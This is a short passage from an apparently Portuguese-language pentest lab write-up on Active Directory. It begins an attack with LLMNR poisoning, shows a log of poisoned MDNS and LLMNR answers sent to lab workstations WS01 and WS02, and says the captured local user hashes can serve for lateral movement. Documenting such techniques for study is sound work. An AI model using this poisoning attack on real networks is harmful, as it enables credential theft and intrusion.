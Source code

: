 Iniciamos o ataque atraves de **[LLMNR](/posts/ad_llmnr/#explora%C3%A7%C3%A3o-poc)**

![](LLMNRStart.png)

```

*] [DHCP] Found DHCP server IP: 192.168.0.22, now waiting for incoming requests...
[*] [MDNS] Poisoned answer sent to 192.168.0.101   for name WS01.local
[*] [MDNS] Poisoned answer sent to fe80::a88c:9816:a018:8bef for name WS01.local
[*] [LLMNR]  Poisoned answer sent to fe80::a88c:9816:a018:8bef for name WS01
[*] [LLMNR]  Poisoned answer sent to 192.168.0.101 for name WS01
[*] [MDNS] Poisoned answer sent to 192.168.0.101   for name WS01.local
[*] [LLMNR]  Poisoned answer sent to fe80::a88c:9816:a018:8bef for name WS01
[*] [LLMNR]  Poisoned answer sent to 192.168.0.101 for name WS01
[*] [MDNS] Poisoned answer sent to fe80::a88c:9816:a018:8bef for name WS01.local
[*] [MDNS] Poisoned answer sent to 192.168.0.101   for name WS01.local
[*] [LLMNR]  Poisoned answer sent to fe80::a88c:9816:a018:8bef for name WS01
[*] [MDNS] Poisoned answer sent to fe80::a88c:9816:a018:8bef for name WS01.local
[*] [LLMNR]  Poisoned answer sent to 192.168.0.101 for name WS01
[*] [MDNS] Poisoned answer sent to 192.168.0.101   for name WS01.local
[*] [MDNS] Poisoned answer sent to fe80::a88c:9816:a018:8bef for name WS01.local
[*] [LLMNR]  Poisoned answer sent to fe80::a88c:9816:a018:8bef for name WS01
[*] [LLMNR]  Poisoned answer sent to 192.168.0.101 for name WS01
[*] [MDNS] Poisoned answer sent to 192.168.0.102   for name WS02.local
[*] [MDNS] Poisoned answer sent to fe80::3066:d170:a156:1320 for name WS02.local
[*] [LLMNR]  Poisoned answer sent to fe80::3066:d170:a156:1320 for name WS02
[*] [LLMNR]  Poisoned answer sent to 192.168.0.102 for name WS02
[*] [MDNS] Poisoned answer sent to 192.168.0.102   for name WS02.local
[*] [MDNS] Poisoned answer sent to fe80::3066:d170:a156:1320 for name WS02.local


```

E temos agora à disposição as _hashes_ dos utilizadores locais da maquina de destino, que poderemos utilizar para _lateral movement_.
